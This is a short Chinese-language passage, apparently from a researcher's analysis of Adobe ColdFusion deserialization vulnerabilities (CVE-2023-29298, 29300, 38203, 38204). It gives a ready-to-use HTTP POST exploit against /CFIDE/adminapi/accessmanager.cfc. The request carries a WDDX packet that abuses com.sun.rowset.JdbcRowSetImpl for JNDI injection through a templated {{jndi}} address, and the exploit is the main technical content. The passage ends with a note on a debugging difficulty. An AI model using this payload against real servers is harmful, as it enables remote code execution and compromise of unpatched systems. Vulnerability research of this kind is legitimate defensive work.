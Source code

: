 ```
```

因为这个效果其实也就是去调用对应的setter方法，所以可以用到最常用的com.sun.rowset.JdbcRowSetImpl去进行JNDI注入

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

argumentCollection=<wddxPacket+version%3d'1.0'><header/><data><struct+type%3d'xcom.sun.rowset.JdbcRowSetImplx'><var+name%3d'dataSourceName'><string>{{jndi}}</string></var><var+name%3d'autoCommit'><boolean+value%3d'true'/></var></struct></data></wddxPacket>
```

![image-20230728180555036](images/14.png)



# 遇到的问题

我在开启远程调试重启后，虽然能够执行到connect的lookup那里，但是并没有去到InitialContext到lookup，而我才搭建好的时候却可以通过payload收到JNDI请求







 CVE编号：CVE-2023-29298/CVE-2023-29300 / CVE-2023-38203 / CVE-2023-38204/
